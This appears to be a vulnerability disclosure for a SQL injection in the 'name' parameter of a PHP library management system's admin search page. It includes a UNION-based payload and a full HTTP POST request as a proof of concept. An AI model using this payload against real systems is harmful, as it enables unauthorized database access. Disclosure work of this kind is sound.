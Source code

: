 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/search.php

Vulnerability location: /LMS/admin/search.php, name

[+] Payload: name=11'+union+select+1,database(),3,4--+&atay= // Leak place ---> name

```sql
POST /LMS/admin/search.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

name=11'+union+select+1,database(),3,4--+&atay=
```

![image](https://user-images.githubusercontent.com/54017627/180446091-3877d0a6-8ee9-4913-9d54-f595393e41e9.png)
